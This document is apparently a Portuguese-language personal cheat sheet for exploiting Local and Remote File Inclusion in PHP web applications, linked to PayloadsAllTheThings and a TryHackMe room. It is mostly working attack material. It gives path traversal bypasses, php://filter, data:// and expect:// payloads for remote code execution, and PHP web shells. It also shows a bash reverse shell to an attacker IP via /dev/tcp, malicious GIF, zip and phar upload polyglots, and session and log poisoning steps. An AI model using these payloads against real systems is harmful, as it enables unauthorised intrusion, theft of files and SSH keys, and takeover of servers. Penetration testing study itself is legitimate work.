

# File Inclusion (LFI & RFI)

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion

CLICAR EM SOURCE-CODE DAS IMAGENS E VER COMO ELA ESTA SENDO PASSADA! pode ser que seja algo no html como: **`/picture/?file=imagem.jpg`**! clicamos e testamos (encodar em URL e tentar bypass mesmo se der erro).

---

- **Automated Scanning e Exploiting**
    - **1. Enumerar páginas `.php` disponíveis (como `config.php`)**
        
        ```bash
        ffuf -w directory-list-2.3-small.txt:FUZZ -u http://<IP>:<PORT>/FUZZ.php
        ```
        
        - Isso encontra arquivos .php incluíveis com `?page=`
    - **2. Fuzzing de PARAMETROS GET que aceitam LFI**
        
        ```bash
        ffuf -w burp-parameter-names.txt:FUZZ -u 'http://<IP>:<PORT>/index.php?FUZZ=value' -fs <tam_resposta_normal>
        ```
        
        - Descobre se outros nomes de parâmetro aceitam inclusão (ex: `?template=`, `?load=`)
    - <u>**3. Testar PAYLOADS comuns**</u>
        
        ```bash
        ffuf -w LFI-Jhaddix.txt:FUZZ -u 'http://<IP>:<PORT>/index.php?language=FUZZ' -fs <TAM>
        ```
        
         Ex:
        
        - `../../../../etc/passwd`
        - `%2e%2e%2fetc%2fpasswd`
        - `%00`, `%2e%2e`, etc
    - **4. Buscar arquivos úteis com wordlists**
        - **Webroot**:
            
            ```bash
            ffuf -w default-web-root-directory-linux.txt:FUZZ -u 'http://<IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs <TAM>
            ```
            
        - **Logs e configurações**:
            
            ```bash
            ffuf -w LFI-WordList-Linux:FUZZ -u 'http://<IP>:<PORT>/index.php?language=../../../../FUZZ' -fs <TAM>
            ```
            
             Ex:
            
            - `/etc/apache2/apache2.conf`
            - `/var/log/apache2/access.log`
            - `/var/www/html/`
    - Daqui podemos seguir para as tecnicas manuais nos topicos acima.

---

### **LFI:**

- **Bypass padrao**
    - Bypass de filtro → dobrar ponto e barra → **….//….//**
    
    ```bash
    ../../../../../../../etc/passwd
    ```
    
    ```bash
    ....//....//....//....//....//....//....//etc/passwd
    ```
    
    - tentar alem de `../../../` → `/../../..` (com barra no inicio)
    - Inserir o diretorio/palavra default no inicio antes → **`languages/../../../etc/passwd`**
    - Caso tenha extensao (**`.jpg`** ou **`.php`**) add `%00`  ⇒ **`../../../etc/passwd%00.jpg`**
    - Encodar em URL
        
        **OBS: fazer o Encoding pelo Burp, e testar SEM o %00 no final antes de usa-lo, pois por algum motivo pode fazer nao funcionar (mesmo sendo algo que so agregaria).**
        
        **(TESTAR PELO BURPSUITE, AS VEZES AO ENVIAR PELA URL ELE ENCODA APENAS O `.` E NAO TUDO E PODE NAO FUNCIONAR)**
        
    - Encodar em URL 2x
    - Encodar uma ou 2x apenas as barras
    
    ---
    
    - Quando precisar trocar o método de GET para POST, usar burp ou terminal:
        
        `curl -X POST http:/10.10.181.115/challenges/chall3.php -d 'method=POST&file=../../../../etc/flag3%00' --output -`
        
    
    ---
    
- **Bypass usando filtro base64 para ver source-code de arquivos PHP**
    - Se confirmamos que temos um LFI, podemos tentar usar filtro, que serve para basicamente ver o codigo-fonte de um arquivo **`.php`** (ex: **`config.php`**). Para explorar primeiro inserimos na URL → **`http://alvo.com/index.php?page=../../config`**, se a resposta for em branco ou o HTML normal, podemos prosseguir.
    - Payload para inserir no **`page=`** a pagina que encontramos php para ler seu conteudo fonte:
        
        **`php://filter/read=convert.base64-encode/resource=index`**
        
        OBS: SE NAO DER, TROCAR CONFIG POR INDEX OU O RESOURCE (nao entendi)
        
    - Retornara o codigo-fonte codificado em Base64, agora so decodar.
- **Bypass usando filtro base64 para tentar RCE (`allow_url_include`** ou **`extension`)**
    - Alem do Filter onde extraimos o codigo-fonte, podemos tentar usar Wrappers para executar comandos no servidor (RCE).
    - Primeiro precisamos ver se estao ativos o **`allow_url_include = On`** ou o **`expect` :**
        - **`?page=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini`**
            - Tentar com  **`8.0`**, **`7.3`**, **`7.2`**, e caminhos **`fpm/`** tambem.
        - Agora decodamos e damos um grep:
            
            ```bash
            echo 'base64' | base64 -d | grep allow_url_include
            echo 'base64' | base64 -d | grep expect
            ```
            
    - Se **`allow_url_include = On`**
        - Nesse caso usamos o **`data://`** ou o **`php://input`** para explorar **RCE**.
        - Usando data:
            - Primeiramente pegamos um Shell PHP em base64 → **`echo '<?php system($_GET["cmd"]); ?>' | base64`**
            - Agora encodamos em URL → **`echo '<BASE64>' | jq -sRr @uri`**
            - Agora copiamos o res executamos na URL:
            - **`http://alvo.com/index.php?page=data://text/plain;base64,<base64>&cmd=id`**
        
        ---
        
        - Usando input (POST):
        - **`curl -X POST --data '<?php system($_GET["cmd"]); ?>' "http://alvo.com/index.php?page=php://input&cmd=id"`**
    - Se **`extension=expect`**
        - Executa comando diretamente (ex: **`id`**):
        - **`http://alvo.com/index.php?page=expect://id`**

---

- **LFI Confirmed → File Enumeration/Post-Exploitation**
    
    **NAO SEJA BURRO →** veja a tecnologia da aplicacao, por resultado do nmap ou tanto faz, e de acordo com os nomes default dos codigos nessa tecnologia, tentar mapear manualmente, Ex: aplicacao em python, podemos inserir  **`app.py`**, **`../app.py`**, etc.
    
    ---
    
    **WORDLIST PARA FUZZING com Caido/Burp:**
    
    **`/home/alexinsel/seclists/Fuzzing/LFI/LFI-Jhaddix.txt`**
    
    ---
    
    Manualmente:
    
    
    
    ### **`/etc/passwd`**
    
    Podemos identificar os usuarios atraves do passwd, e depois podemos entao tentar pegar a chave ssh deles pelo LFI - `/**home/carlos/ssh/id_rsa**`, ou brute-force em algum outro servico
    
    ### **`/proc`** (CTF - airplane (thm))
    
    podemos ver sobre:
    
    **`/proc/self/environ`**
    
    **`/proc/net/tcp`** (e outros, ver no nosso proprio pc como eh e oq tem)
    

Caso seja possivel LFI, podemos prosseguir e tentar RFI, para conseguir execucao remota.

### **RFI:**

---

- **RFI**
    - Primeiro testamos para ver se eh possivel incluir URLs no parameto → **`?page=http://127.0.0.1/index.php`**
    - Se a pagina for incluida e renderizada, podemos prosseguir (provavel RFI), agora nos criamos uma shell php no nosso terminal e hospedamos um servidor HTTP:
        
        ```bash
        # Criar Shell em arquivo PHP:
        echo '<?php system($_GET["cmd"]); ?>' > shell.php
        # Abrir server HTTP:
        sudo python3 -m http.server 80
        ```
        
        ```bash
        # Criar PHP com REVERSE SHELL em vez de a de cmd:
        echo '<?php
        /**
         * Plugin Name: Wordpress Reverse Shell
         * Author: azkrath
         */
        exec(“/bin/bash -c ‘bash -i >& /dev/tcp/<IP>/<Port> 0>&1’”)
        ?>' > shell.php
        
        # Abrir server HTTP:
        sudo python3 -m http.server 80
        ```
        
    - Agora apenas rodar o comando na URL do alvo → **`http://alvo.com/index.php?page=http://<NOSSO_IP>/shell.php&cmd=id`**
    - **CASO HTTP SEJA BLOQUEADO, podemos tentar usar FTP ou SMB:**
        
        ```bash
        # Criar servidor FTP:
        sudo python3 -m pyftpdlib -p 21
        ```
        
        - Acessar servidor FTP na URL do alvo → **`?page=ftp://<SEU_IP>/shell.php&cmd=id`**
        
        ```bash
        # Criar servidor SMB:
        impacket-smbserver -smb2support share $(pwd)
        ```
        
        - Acessar servidor SMB na URL do alvo → `?page=\\\\<SEU_IP>\\share\\shell.php&cmd=whoami`

---

- **LFI + File Upload**
    - Quando ja temos confirmado uma LFI e notamos que o site tem em algum lugar uma opcao de Upload de imagem (avatar, curriculo..).
    - Primeiro criamos nosso payload **Imagem** **+** **Shell: `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`**
    - Agora enviamos o arquivo, apos enviar, inespecionamos a imagem para pegar o caminho do arquivo no codigo (ex: **``**).
    - Agora so precisamos incluir esse caminho no LFI e executar comandos pela URL (se der errado: tentar **`../../`** antes pois a aplicacao pode exigir esse prefix):
        
        **`?page=./profile_images/shell.gif&cmd=id`**
        
    
    ---
    
    - **ALGUMAS OUTRAS OPCOES de metodos de upload caso o upload tenha falhado:**
    - **ZIP Wrapper:**
        
        ```bash
        echo '<?php system($_GET["cmd"]); ?>' > shell.php
        zip shell.jpg shell.php
        ```
        
        - Enviar o shell.jpg e invocar ele no LFI pela URL com → **`?page=zip://./profile_images/shell.jpg#shell.php&cmd=id`**
    - **PHAR Wrapper:**
        - Conteudo **shell.php:**
            
            ```bash
            <?php
            $phar = new Phar('shell.phar');
            $phar->startBuffering();
            $phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
            $phar->setStub('<?php __HALT_COMPILER(); ?>');
            $phar->stopBuffering();
            ```
            
        - Agora no terminal compilamos → **`php -d phar.readonly=0 shell.php`**
        - Vai ter gerado um arquivo chamado shell.phar, agora renomeamos ele → **`mv shell.phar shell.jpg`**
        - Agora enviar o shell.jpg e invocar ele no LFI pela URL com → **`?page=phar://./profile_images/shell.jpg/shell.txt&cmd=id`**
- **LFI + Session (session poisoning)**
    - Quando ja temos um LFI em um parametro (Ex: **`?language=`**) que controlamos, e o site armazena sessoes por **`PHPSESSID`**.
    - Primeiro pegamos o valor do nosso **`PHPSESSID`** via cookie e guardamos, depois injetamos codigo no parametro que controlamos (nesse caso language) na URL **ENCODADO EM URL** (codigo a ser encodado → **`<?php system($_GET['cmd']); ?>`**):
        - **`?language=%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%24%5f%47%45%54%5b%22%63%6d%64%22%5d%29%3b%20%3f%3e`**
    - Agora simplesmente acessamos nosso **PHPSESSID** via **LFI** e executamos comandos (no caso esse diretorio **`/var/lib/php/sessions/`** eh o padrao, e o **`sess_`** antes do codigo eh um prefixo padrao tambem, lembrar que esse valor/sessao eh resetado de tempo em tempo ou a cada request):
        - **`?language=/var/lib/php/sessions/sess_<NOSSO_PHPSESSID>&cmd=id`**
    
    ---
    
    - Outro metodo de Session Poisoning eh injetar um User-Agent malicioso com codigo de comando shell, poisos diretorios padrao que eh salvo, e pela url acessar esses arquivos, executando comandos.
    - Primeiramente precisamos atraves do parametro da URL identificar qual o diretorio correto do sistema (ex: apache2 ou nginx..):
        - **`?language=/var/log/apache2/access.log`**
        - **`?language=/var/log/nginx/access.log`**
        - Existem outros diretorios (da pra fazer ate um FUZZING disso → [wordlist](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)), ex:
            
            ```bash
            /proc/self/environ
            /proc/self/fd/10
            /var/log/httpd/access.log
            C:\xampp\apache\logs\access.log
            ```
            
    - Entao abrimos o Burpsuite e interceptamos um f5 e jogamos no repeater, agora mantemos o diretorio no parametro da URL, mas trocamos o **`User-Agent`** para um valor x (Ex: **`POISON POSSIVEL`**) e vemos se ele aparece renderizado nas resposta do log (enviar + de 1 vez qlqr coisa).
    - Caso apareca, podemos seguir, mudamos o User-Agent para uma shell de comando → **`User-Agent: <?php system($_GET["cmd"]); ?>`** e na URL mudamos o fim do diretorio para incluir o comando → **`?language=/var/log/apache2/access.log&cmd=id`**
